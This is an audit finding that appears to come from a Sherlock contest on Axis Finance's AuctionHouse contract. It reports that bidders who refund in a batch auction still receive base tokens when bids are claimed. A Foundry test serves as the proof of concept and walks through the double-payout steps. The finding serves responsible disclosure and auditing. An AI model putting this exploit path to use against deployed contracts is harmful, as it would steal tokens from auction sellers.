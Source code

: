 Shiny Cinnabar Horse

high

# When `Seller` or `AuctionHouse` calls `ClaimBids` they will pay the `Bidders` whom had called `Refund` earlier.

## Summary

When `ClaimBids` is called on a `batch` auction. `Bidders` who called refund earlier will recieve free `baseTokens`. 
## Vulnerability Detail
Place this unit test in moonraker/test/AuctionHouse/claimBids.t.sol.
```javascript
    function test_frontRunsClaimBids()
        external
        whenAuctionTypeIsBatch
        whenBatchAuctionModuleIsInstalled
        givenSellerHasBaseTokenBalance(_LOT_CAPACITY)
        givenSellerHasBaseTokenAllowance(_LOT_CAPACITY)
        givenLotIsCreated
        givenLotHasStarted
        givenBalancesAreSet
        givenBidderTwoHasQuoteTokenBalance(_scaleQuoteTokenAmount(_BID_AMOUNT))
        givenBidderTwoHasQuoteTokenAllowance(
            _scaleQuoteTokenAmount(_BID_AMOUNT)
        )
        givenBidCreated(_BIDDER_TWO, _scaleQuoteTokenAmount(_BID_AMOUNT), "")
        givenPayoutIsSet(
            _BIDDER_TWO,
            _REFERRER,
            _scaleQuoteTokenAmount(_BID_AMOUNT),
            _scaleBaseTokenAmount(_BID_AMOUNT_OUT)
        )

        givenMockClaimBidIsSet
    {
        // The user calls refund to receive back the quoteTokens.
        vm.prank(_BIDDER_TWO);
        _auctionHouse.refundBid(_lotId, _bidId);
        // The auction ends
        vm.warp(_startTime + _duration + 1);

        // upon claiming Bids the code sends free base tokens to the bidders.
        vm.prank(address(this));
        _auctionHouse.claimBids(_lotId, _bidIds);

        uint256 aliceQuoteBalance = _quoteToken.balanceOf(_BIDDER_TWO);
        uint256 aliceBaseBalance = _baseToken.balanceOf(_BIDDER_TWO);
        console.log(
            aliceQuoteBalance,
            aliceBaseBalance,
            "They received both their own quoteTokens back and free baseTokens"
        );
    }
```

## Impact
This will lead to the seller losing tokens.

## Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/AuctionHouse.sol#L419
This line loads up even the refunded bids

## Tool used

Manual Review

## Recommendation
1. Refactor the code so that the bidders who already refunded will not get free tokens
